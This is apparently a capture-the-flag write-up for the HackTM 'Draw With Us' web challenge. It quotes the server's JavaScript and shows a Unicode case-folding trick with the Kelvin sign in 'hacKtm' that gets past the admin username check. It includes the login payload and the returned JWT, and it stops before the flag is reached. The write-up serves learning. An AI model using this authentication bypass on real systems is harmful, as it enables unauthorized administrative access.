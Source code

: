 # Draw With Us

## Challenge

<img src="https://i.imgur.com/1imiCXO.png"/>

[stripped.js](https://ctfx.hacktm.ro/download?file_key=ce09444dba18b75e6c3af1ac63a4c65e175cedd46958433089b06fa85e90bba2&team_key=0f6267bf2c756b2ba7567b44cc440e528e713daafd49adc5d4188d2931729356)


## Solution

## What's preventing us from getting the flag?

This is the code that returns the flag (`/flag`):

```javascript
  if (req.user.id == 0) {
    res.send(ok({ flag: flag }));
```

`req.user.id` is determined by the value in a signed Json Web Token that is being sent which is randomly generated by the server at login.
We have to get a signed token with and `id` or 0. The secret that is used to sign is never explosed so its secure.


The only other place that returns a signed JWT is `/init`:

```javascript
let adminId = pwHash
    .split("")
    .map((c, i) => c.charCodeAt(0) ^ target.charCodeAt(i))
    .reduce((a, b) => a + b);
    
  res.json(ok({ token: sign({ id: adminId }) }));
```

For `adminId` to be 0,  we need `target xor pwHash = 0` which means `target === pwHash`.

* `target` is the md5 sum of `config.n`.
* `pwHash` is the md5 sum of `q*p` which are variables that are given as parameter.

We need to get `config.n`.

-----

Thanksfully `/serverInfo` returns some of the properties of `config`:

```javascript
app.get("/serverInfo", (req, res) => {
  let user = users[req.user.id] || { rights: [] };
  let info = user.rights.map(i => ({ name: i, value: config[i] }));
  res.json(ok({ info: info }));
});
```

The default rights for each user are:

`[ "message", "height", "width", "version", "usersOnline", "adminUsername", "backgroundColor" ]`

We need to add `n` and `p` to our users rights.

The method `/updateUser` allows us to send a list of rights to add to our users rights list.

But when we POST `["p", "n"]` we get:

`"You're not an admin!"`

as a response due to the following code:

```javascript
if (!user || !isAdmin(user)) {
  res.json(err("You're not an admin!"));
  return;
}
```

------

## Bypassing isAdmin(u)

```javascript
function isAdmin(u) {
  return u.username.toLowerCase() == config.adminUsername.toLowerCase();
}
```

We need to make `username.toLowerCase() === adminUsername.toLowerCase()`.

If we try to login (`/login`) with the admin username: `hacktm` we get:

`Invalid creds`

Its due to `isValidUser(u)` in `/login`. It checks that:

```javascript
u.username.toUpperCase() !== config.adminUsername.toUpperCase()
````

So we need: 
* `u.username.toUpperCase() !== config.adminUsername.toUpperCase()`
* `username.toLowerCase() === adminUsername.toLowerCase()`

Thankfully unicode provides us with characters that satify this conditaion:
```
"K".toUpperCase() = "K"
"K".toLowerCase() = "k"
```

That means:

`isValidUser("hacKtm")` is `true` and `isAdmin("hacKtm")` is `true` as well!

We POST to `/login`:

```javascript
{
	"username": "hacKtm"
}
```

we get the following JWT:

```javascript
{
"status": "ok",
 "data": {
        "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImZiNzRmNWJmLTI0ZTQtNDhkMC1hNjhmLWFhY2RiMzM1MTE2YSIsImlhdCI6MTU4MDc2MTk5MH0.h4YUaSHGEkG1BcuY_Agx0Lt7bU6X779OnOC2dmcat04"
    }
}
```

Now we can update our rights!
